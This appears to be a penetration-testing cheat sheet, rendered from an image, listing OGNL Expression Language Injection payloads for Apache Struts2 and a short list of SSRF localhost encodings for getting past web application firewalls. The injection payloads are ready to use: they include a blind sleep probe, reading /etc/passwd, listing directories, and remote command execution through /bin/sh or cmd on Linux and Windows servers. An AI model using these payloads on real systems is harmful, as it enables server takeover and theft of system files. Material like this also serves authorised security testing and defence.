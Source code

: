 
### ELI

Expression Language Injection

```bash
# J2EEScan detection vector
https://www.example.url/?vulnerableParameter=PRE-${#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#kzxs=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#kzxs.print(#parameters.INJPARAM[0]),#kzxs.print(new java.lang.Integer(829+9)),#kzxs.close(),1?#xx:#request.toString}-POST&INJPARAM=HOOK_VAL

# Blind detection vector
https://www.example.url/?vulnerableParameter=${#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#kzxs=@java.lang.Thread@sleep(10000),1?#xx:#request.toString}

# RFI
https://www.example.url/?vulnerableParameter=${#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#wwww=new java.io.File(#parameters.INJPARAM[0]),#pppp=new java.io.FileInputStream(#wwww),#qqqq=new java.lang.Long(#wwww.length()),#tttt=new byte[#qqqq.intValue()],#llll=#pppp.read(#tttt),#pppp.close(),#kzxs=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#kzxs.print(new java.lang.String(#tttt)),#kzxs.close(),1?#xx:#request.toString}&INJPARAM=/etc/passwd

# DIR LIST
https://www.example.url/?vulnerableParameter=${#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#wwww=new java.io.File(#parameters.INJPARAM[0]),#pppp=#wwww.listFiles(),#qqqq=@java.util.Arrays@toString(#pppp),#kzxs=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#kzxs.print(#qqqq),#kzxs.close(),1?#xx:#request.toString}&INJPARAM=..

# RCE LINUX
https://www.example.url/?vulnerableParameter=${#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#wwww=@java.lang.Runtime@getRuntime(),#ssss=new java.lang.String[3],#ssss[0]="/bin/sh",#ssss[1]="-c",#ssss[2]=#parameters.INJPARAM[0],#wwww.exec(#ssss),#kzxs=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#kzxs.print(#parameters.INJPARAM[0]),#kzxs.close(),1?#xx:#request.toString}&INJPARAM=touch /tmp/InjectedFile.txt

# RCE WINDOWS
https://www.example.url/?vulnerableParameter=${%23_memberAccess%3d%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23wwww=@java.lang.Runtime@getRuntime(),%23ssss=new%20java.lang.String[3],%23ssss[0]="cmd",%23ssss[1]="%2fC",%23ssss[2]=%23parameters.INJPARAM[0],%23wwww.exec(%23ssss),%23kzxs%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23kzxs.print(%23parameters.INJPARAM[0])%2c%23kzxs.close(),1%3f%23xx%3a%23request.toString}&INJPARAM=touch%20/tmp/InjectedFile.txt
```

---

## **Bypass WAF**


SSRF localhost

```bash
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```
